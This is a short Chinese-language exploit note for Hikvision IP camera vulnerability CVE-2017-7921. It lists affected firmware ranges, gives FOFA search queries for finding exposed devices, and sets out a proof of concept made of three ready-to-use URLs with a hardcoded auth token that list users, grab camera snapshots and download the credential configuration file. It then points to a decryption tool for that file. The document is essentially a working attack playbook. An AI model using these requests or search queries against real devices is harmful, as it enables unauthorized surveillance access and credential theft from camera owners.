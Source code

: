 # 海康威视 CVE-2017-7921 未授权漏洞

## 漏洞描述

成功利用这些漏洞可能会导致恶意攻击者提升其权限或假设已验证用户的身份并获取敏感数据。

## 漏洞影响

```
海康威视 DS-2CD2xx2F-I Series V5.2.0 build 140721至V5.4.0 build 160530
DS-2CD2xx0F-I Series V5.2.0 build 140721至V5.4.0 build 160401
DS-2CD2xx2FWD Series V5.3.1 build 150410至V5.4.4 build 161125
DS-2CD4x2xFWD Series V5.2.0 build 140721至V5.4.0 build 160414
```

## FOFA

```
header="Hikvision"			  
app="HIKVISION-视频监控"
```

## POC

1.检索设备列表

```
http://IP/Security/users?auth=YWRtaW46MTEK
```

2.获取监控快照

```
http://IP/onvif-http/snapshot?auth=YWRtaW46MTEK
```

3.下载摄像头配置账号密码文件

```
http://IP/System/configurationFile?auth=YWRtaW46MTEK
```

- 浏览器会自动下载一个名为 `configurationFile` 的文件,需要经过解密。
  Payload: https://github.com/chrisjd20/hikvision_CVE-2017-7921_auth_bypass_config_decryptor
- 需要一个工具 `wxMEdit` 打开解密后的配置文件,搜索关键字 `admin`.